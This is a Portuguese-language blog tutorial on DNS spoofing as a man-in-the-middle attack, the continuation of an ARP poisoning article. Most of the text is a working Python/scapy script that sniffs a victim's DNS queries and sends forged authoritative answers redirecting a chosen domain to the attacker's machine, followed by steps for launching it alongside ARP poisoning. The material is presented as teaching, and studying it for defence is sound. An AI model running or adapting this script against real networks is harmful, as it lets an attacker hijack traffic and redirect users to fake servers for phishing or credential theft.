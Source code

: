 ```yaml
---
title: 'DNS Spoofing: Como interceptar requisições DNS - Ataque MITM'
date: '2024-08-05'
summary: 'Como continuação do ultimo artigo, iremos aprender como funciona o ataque DNS Spoofing, e como redirecionar requisições DNS ao nosso servidor.'
tags: ['hacking', 'mitm']
draft: false
---
```


Como continuação do ultimo artigo, iremos aprender como funciona o ataque DNS Spoofing, e como redirecionar requisições DNS ao nosso servidor.

<TOCInline toc={props.toc} asDisclosure />

## O que é o DNS

O DNS (Domain Name System) é o sistema responsável por traduzir os endereços de domínio em endereços IP, permitindo que os usuários acessem sites através de nomes ao invés de números.

Quando um usuário quer acessar facebook por exemplo, ele envia uma requisição DNS a um determinado servidor DNS, e esse servidor retorna o endereço IP dono do domínio "facebook.com".

## Como funciona o ataque

![Tete](/static/images/dns-spoof/dns-spoofing.webp)

O DNS Spoofing funciona criando um servidor DNS que recebe as requisições do alvo e redireciona determinados sites (ou todos) a um outro servidor de sua escolha.

Para que o atacante receba as requisições do alvo, ele depende de um outro ataque MITM chamado ARP Poisoning, que foi explicado no último artigo.

Executando o ARP Poisoning e se passando pelo roteador, todas as requisições DNS do alvo serão redirecionadas à máquina do atacante.

## Criando o script

Agora que já entendemos como funciona o ataque iremos criar um script em python para executar o DNS Spoofing.

Para realizar o ataque também será necessário usar o script de ARP Poisoning criado no [último artigo](https://reddyyz.github.io/blog/arp-poisoning-ataque-mitm).

Bibliotecas que iremos usar:
- scapy — Biblioteca responsável pela criação dos pacotes
- netifaces — Biblioteca que usaremos para identificar o IP e MAC local.

---

Importando as bibliotecas necessárias:

```python:dnsspoof.py
from scapy.all import *
import netifaces
```

Criando a função que irá redirecionar os sites à um servidor falso:

```python:dnsspoof.py
def handle_packet(pkt):
    if pkt.haslayer(IP) and pkt.haslayer(DNS):
        if pkt[IP].src != local_ip and pkt[Ether].dst == local_mac and pkt[DNS].opcode == 0 and pkt[DNS].ancount == 0:

            if pkt[DNSQR].qname.decode() == "test.root.":
                fake_pkt = IP(dst=pkt[IP].src,
                              src=pkt[IP].dst)/\
                              UDP(dport=pkt[UDP].sport, sport=53)/\
                              DNS(id=pkt[DNS].id,
                                  qd=pkt[DNS].qd,
                                  aa=1,
                                  qr=1,
                                  ancount=1,
                                  an=DNSRR(rrname=pkt[DNSQR].qname, rdata=redirect_ip))/\
                              DNSRR(rrname=pkt[DNSQR].qname,
                                    rdata=redirect_ip)

                send(fake_pkt)
                print(f"Requisicao DNS de {pkt[IP].src} redirecionada para {redirect_ip}")
```

Checando se a requisição não veio da nossa própria máquina, se o MAC de destino é o da nossa máquina e se é uma requisição DNS

```python
if pkt[IP].src != local_ip and pkt[Ether].dst == local_mac and pkt[DNS].opcode == 0 and pkt[DNS].ancount == 0:
```

Verificando se a requisição é ao site que queremos redirecionar.
Nesta parte lembre-se de adicionar o ‘.’ ao final da URL.
```python
if pkt[DNSQR].qname.decode() == "test.root.":
```

Criando a resposta do DNS.
O argumento `rrname` é o domínio da requisição e `rdata` é o IP no qual será redirecionado.

```python
an=DNSRR(rrname=pkt[DNSQR].qname, rdata=redirect_ip))/\ # RESPOSTA DNS
# RRNAME=Site da requisicao
# RDATA = IP PARA REDIRECIONAR
```

Na função principal definimos todas as variáveis que precisamos e iniciamos o ataque com a função `sniff`:

```python:dnsspoof.py
if __name__ == "__main__":
    info_interface = netifaces.ifaddresses("eth0") # Obtem informacoes sobre a placa de rede

    local_ip = info_interface[netifaces.AF_INET][0]['addr']
    local_mac = info_interface[netifaces.AF_LINK][0]['addr']
    redirect_ip = local_ip

    print("Iniciando ataque")
    sniff(prn=handle_packet)
```

[Código completo](https://gist.github.com/ReddyyZ/cd28f86a5c7913854f080a82c2a27090#file-dnsspoof-py)

## Iniciando o ataque

Com todos os scripts prontos, vamos iniciar o ataque.<br/>Primeiro executamos o script do ARP Poisoning:

![ARP Poisoning](/static/images/dns-spoof/arp-poisoning.webp)

E em seguida executamos o script do DNS Spoofing:

![DNS Spoofing](/static/images/dns-spoof/iniciando-dns-spoof.webp)

Com isso, todas as requisições DNS do alvo serão redirecionadas ao nosso servidor falso.

Agora vamos tentar acessar o site que queremos redirecionar `test.root`:

<Youtube videoId="ulsonS-rDwc"/>